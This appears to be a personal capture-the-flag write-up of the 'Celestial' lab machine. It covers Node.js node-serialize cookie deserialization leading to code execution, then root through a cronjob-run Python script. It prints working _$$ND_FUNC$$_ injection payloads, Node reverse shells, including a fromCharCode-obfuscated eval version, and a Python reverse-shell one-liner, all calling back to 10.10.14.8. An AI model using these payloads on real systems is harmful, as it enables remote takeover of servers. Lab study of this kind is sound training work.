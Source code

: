 # Celestial Writeup

Name: Celestial
Date:  19/5/2023
Difficulty: Medium  
Goals:  
- On the list to do list
- With minimal understanding of the direction finish it quickish
Learnt:
- Once again the python2 script comes through
Beyond Root:
- Reead some APT stuff

- [[Celestial-Notes.md]]
- [[Celestial-CMD-by-CMDs.md]]

I watch the Ippsec video over my lunch break and it being on my list of Helped-Throughs I though I would just try it out. I know it involves Node deserialization and a cronjob that upset Ippsec. 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)
	

Masscan did not work :/, but evenutally I found: 

![](cookiedummy.png)

It pretty plain except for a cookie
![](percent3disequals.png)

decoding it:
```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

{"username":"FIELD1","country":"FIELD2","city":"FIELD#","num":"FIELD4-NUM"}
// Next break the cookie for enumeration
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} - "
```

And it json and the response shows Express a NodeJS
![](expressintheburp.png)

My articles currently:

![](archive0.png)
and
![](archive1.png)

[Hacktricks Deserialization article](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)'s section on Deserialization attacks for [Nodejs](https://nodejs.org/en)

Test to see what is evaluated base on what reflected back to us first - make Node do maths
![](decodechangeandencodepoc.png)

Confirming concatenation of two strings
![](pocandconfrmingevaluationoftype.png)

Next always break for error codes:
```json
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} 
```
 Original for comparison
```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

![](nodealwayhasverboserrors.png)

We get a username, location that the web is running the npm module from and some directory information. With indication that is serializing with the serialization.js library. [Hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)
```json
"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"

{"username":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

// Third Attempt
{"username":"Dummy","country":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","city":"Lametown","num":"2"}

// Second Attmept
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","num":"2"}

// First Attempt:
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```

First attempt
firstattempt.png

Second attempt
![](secondattempt.png)

[304 - Not Modifed](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304) *"client redirection response code indicates that there is no need to retransmit the requested resources. It is an implicit redirection to a cached resource. This happens when the request method is a [safe](https://developer.mozilla.org/en-US/docs/Glossary/Safe/HTTP) method, such as [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) or [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD), or when the request is conditional and uses an [`If-None-Match`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-None-Match) or an [`If-Modified-Since`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-Modified-Since) header."*

Third attempt
![](thirdattempt.png)

Forth attempt - Different Error though, but the same as if we broke json
![](forthattempt.png)

```
{"username":_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},"country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

```

## Source Code review

Copying and pasting the source code from [here](https://www.npmjs.com/package/node-serialize?activeTab=code)

It is global variable:
![](funcflag.png)

Where is it used?
![](funcflagusage.png)
funcsStr would then be appended to the FUNCFLAG
![](line49.png)
Basic if we pass the flag we can pass a function
![](lines7475.png)

## Exploit

Check:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/f85f2cb4c60c5d4c869794f04c409826dc52ae86/Insecure%20Deserialization/Node.md
```json
"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"
// Invalid username
{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
// pinging backski !! YAY 
{"username":"sun","country":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 3 10.10.14.8', function(error,stdout, stderr) { console.log(stdout) });}()","city":"Lametown","num":"2"}
```

rcepocpinging.png

Node reverse shell from HackTools
```node
// I check to compare
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("\cmd", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();

// https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})()
// Removing ()
function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;}()
```

```node
{"username":"sun","country":"_$$ND_FUNC$$_function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;}()","city":"Lametown","num":"2"}

// did not work pynodejsshell
{"username":"sun","country":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,56,34,59,10,80,79,82,84,61,34,56,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}","city":"Lametown","num":"2"}
// Worked!
{"username":"sun","country":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,56,34,59,10,80,79,82,84,61,34,56,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)) }()","city":"Lametown","num":"2"}
```

## Foothold

We are the sun %d00 %d00 %d00 %d00
![](wearesun.png)

Get a second shell
```node
{"username":"sun","country":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,56,34,59,10,80,79,82,84,61,34,56,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)) }()","city":"Lametown","num":"2"}
```

## PrivEsc

[Internet Printing Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp)  
![](631.png)

![](scriptcron.png)

A fuller version
![](probablyapathexploit.png)

Escape quotes and wait
```bash
 echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.8\",8444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")" > script.py
```

And we are root:
![](rootnopwnkit.png)

## Beyond Root Reading

https://attack.mitre.org/techniques/T1059/007/  [Chaes](https://attack.mitre.org/software/S0631) is a multistage information stealer written in several programming languages that collects login credentials, credit card numbers, and other financial information. Ialso uses NodeJS Puppeer npm package.

https://www.cybereason.com/hubfs/dam/collateral/reports/11-2020-Chaes-e-commerce-malware-research.pdf

